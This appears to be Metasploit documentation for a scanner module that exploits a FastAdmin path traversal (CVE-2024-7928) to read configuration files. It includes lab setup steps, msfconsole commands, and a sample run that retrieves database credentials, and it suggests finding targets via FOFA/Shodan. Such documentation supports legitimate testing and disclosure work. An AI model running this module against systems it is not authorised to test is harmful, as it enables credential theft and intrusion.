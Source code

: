 ## Vulnerable Application

This module exploits a path traversal vulnerability in FastAdmin versions up to `1.3.3.20220121`, specifically within the `/index/ajax/lang` endpoint.
By manipulating the `lang` parameter, unauthenticated remote attackers can access arbitrary files on the server, such as configuration files containing sensitive credentials.
The vulnerability (CVE-2024-7928) has been publicly disclosed and is fixed in version `1.3.4.20220530`.

- Affected version: <= 1.3.3.20220121
- Fixed version: 1.3.4.20220530
- CVE: [CVE-2024-7928](https://nvd.nist.gov/vuln/detail/CVE-2024-7928)
- Advisory: https://s4e.io/tools/fastadmin-path-traversal-cve-2024-7928

---

## Target Setup

To set up a test environment using the vulnerable version of FastAdmin:

1. **Install Dependencies**
   Ensure you have the following installed:
   - PHP >= 7.1
   - MySQL or MariaDB
   - Web server (Apache or Nginx)

2. **Download Vulnerable FastAdmin Version from Official Repo**
   ```bash
   git clone https://github.com/fastadminnet/fastadmin.git
   cd fastadmin
   git checkout 1.3.3.20220121
   ```

3. **Move to Web Server Directory**
   Copy or move the project to your web server root:
   ```bash
   sudo mv fastadmin /var/www/html/
   cd /var/www/html/fastadmin
   ```

4. **Set Permissions**
   ```bash
   sudo chown -R www-data:www-data .
   sudo chmod -R 755 .
   ```

5. **Create Database**
   Log into MySQL and run:
   ```sql
   CREATE DATABASE fastadmin DEFAULT CHARACTER SET utf8mb4 COLLATE utf8mb4_general_ci;
   ```

6. **Configure Database Connection**
   Edit `application/database.php` and set your DB credentials:
   ```php
   'hostname' => '127.0.0.1',
   'database' => 'fastadmin',
   'username' => 'root',
   'password' => 'yourpassword',
   ```

7. **Import the Database Schema**
   ```bash
   mysql -u root -p fastadmin < fastadmin.sql
   ```

---

## Verification Steps

1. Install the vulnerable version of FastAdmin or find targets using FOFA/Shodan.
2. Start `msfconsole`
3. Run:
   ```
   use auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928
   ```
4. Set `RHOSTS` and `RPORT`
   ```
   set RHOSTS 192.0.2.10
   set RPORT 80  # Or the port you are targeting

   ```
5. Run the module with `run`
6. On success, database credentials should be printed to the console

---

## Options

```
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > show options

Module options (auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.0.2.10       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to FastAdmin instance
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host
```

---

## Scenarios

### FastAdmin 1.3.3.20220121 deployed with default configuration

```
msf6 > use auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > set RHOSTS 192.0.2.10
rhosts => 192.0.2.10
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > run
[+] 192.0.2.10 is vulnerable!
[+] DB Type   : mysql
[+] Hostname  : <redacted>
[+] Database  : fastadmin
[+] Username  : root
[+] Password  : <redacted>
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

